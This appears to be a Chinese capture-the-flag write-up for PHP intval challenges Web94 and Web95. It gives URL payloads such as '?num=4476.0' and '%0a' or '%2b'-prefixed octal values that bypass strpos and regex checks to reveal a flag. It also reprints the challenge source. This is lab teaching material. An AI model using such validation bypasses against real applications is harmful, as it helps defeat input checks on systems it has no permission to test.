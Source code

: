 > ![web94](.\image_php\web94.png)

所有这里用浮点数的字符串绕过就行 payload `/?num=4476.0` 此时的strpos($num, "0")为5，将不会进入if(!strpos($num, "0"))

看了其他师傅的payload

```php
 ?num=4476%0a0 //不知道为什么%0a也可以
 ?num=%0A010574 //这里利用了八进制+换行符，将0升至1号位strpos($num, "0")返回1
 ?num=%2b010574 //%2b是+号的url编码，用正号提升0的位置+010574，strpos($num, "0")返回1
```

## Web95：分隔符

题目：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:53:59
# @link: https://ctfer.com

*/

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```
